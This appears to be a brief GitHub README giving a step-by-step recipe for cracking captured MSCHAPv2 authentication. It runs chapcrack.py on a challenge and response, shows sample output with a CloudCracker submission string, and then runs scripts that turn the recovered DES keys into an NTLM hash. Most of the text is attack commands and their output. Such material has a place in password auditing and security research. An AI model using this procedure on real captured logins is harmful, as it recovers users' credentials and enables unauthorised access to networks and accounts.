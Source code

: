 run chapchrack with the mschap challenge and response https://github.com/moxie0/chapcrack

```python2 chapcrack.py radius -C 44:80:58:11:a0:e2:09:4f -R c4:ef:da:98:b2:c1:4a:c2:f7:10:c9:4d:15:1e:9f:df:b0:31:f4:27:62:ec:31:ad ```


results look like this
``` Cracking K3........
                     C1 = c4efda98b2c14ac2
                     C2 = f710c94d151e9fdf
                     C3 = b031f42762ec31ad
                      P = 44805811a0e2094f
                     K3 = 5f910000000000
CloudCracker Submission = $99$RIBYEaDiCU/E79qYssFKwvcQyU0VHp/fX5E=
``` 

copy the cloudcracker submission without the $99$
https://hashcat.net/forum/thread-5912.html

run chapcrack-des.sh
``` chapcrack-des.sh RIBYEaDiCU/E79qYssFKwvcQyU0VHp/fX5E=```

run
```DES-ntlm.sh```
run
```des-to-ntlm.sh```
